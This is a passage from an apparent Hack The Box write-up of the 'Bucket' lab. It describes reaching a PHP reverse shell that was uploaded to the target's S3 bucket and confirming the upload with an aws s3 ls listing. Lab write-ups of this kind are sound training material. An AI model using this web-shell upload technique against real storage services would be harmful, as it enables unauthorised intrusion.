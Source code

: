 This can be a bit temperamental - sometimes requesting the shell at `http://bucket.htb/phprs.php` returns a 404 status code. However, you just need to keep trying until it works. To check your shell has actually uploaded, you can use `s3 ls`, and copy and paste the filename just to be sure:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/bucket/uploads]
└─$ aws s3 ls adserver --endpoint-url http://s3.bucket.htb
                           PRE images/
2021-04-29 09:57:04       5344 index.html
2021-04-29 09:57:47       5492 phprs.php
```